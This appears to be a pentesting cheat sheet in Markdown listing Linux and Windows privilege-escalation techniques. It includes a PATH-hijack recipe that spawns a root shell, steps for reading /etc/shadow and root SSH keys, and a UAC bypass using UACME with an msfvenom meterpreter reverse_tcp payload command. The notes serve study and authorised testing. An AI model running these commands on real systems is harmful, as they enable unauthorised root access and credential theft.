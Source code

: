 # Privilege Escalation
### Linux
- `sudo -l `
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)



### Windows 
- **UAC Bypass**
  - User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
  - UACME
    - Prerequisites:
      1.  User must be a member of the Administrators group.
         - `net localgroup administrators`
      2. Full interactive shell with the victim (a common nc.exe shell is not enough).
         - You can use meterpreter
    - Procedure
      1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
         - `ps` to show process 
         - (ex. `migrate explorer.exe`)
      3. Upload Akagi (Akagi64.exe if x64)
      3. Create payload with msfvenom
         - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
      5. Use exploit/multi/handler to start a listener
      6. Akagi64.exe 23 <payload_full_path>
         - **NOTE FULL PATH**
      7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
      
- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software

# Resource
Resource | Description 
--- | ---
[GTFOBins](https://gtfobins.github.io/) | GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems
[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) | Linux Privilege Escalation Awesome Script
[pspy](https://github.com/DominicBreuker/pspy) | Monitor linux processes without root permissions
[Priv2Admin](https://github.com/gtworek/Priv2Admin)  | Windows Privileges with Windows OS privileges

